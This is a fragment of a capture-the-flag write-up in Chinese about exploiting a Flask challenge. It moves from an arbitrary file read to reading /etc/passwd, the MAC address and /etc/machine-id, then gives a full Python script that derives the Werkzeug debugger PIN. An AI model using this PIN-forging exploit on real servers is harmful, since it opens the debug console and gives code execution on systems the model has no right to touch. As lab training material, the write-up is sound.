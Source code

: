![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171933555.png)

任意文件读取, 并且可以遍历目录

访问 flag 文件显示没有权限

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171934746.png)

 但这样子的话, flask 的报错页面也显示出来了 (之前还没尝试软链接目录的时候, 一直在想怎么让他报错...)

剩下的就是读取构造 pin 所需的各种文件

```
/etc/passwd
/sys/class/net/eth0/address
/etc/machine-id
```

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'ctf'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '95529703075',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '96cec10d3d9307792745ec3b85c89620'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

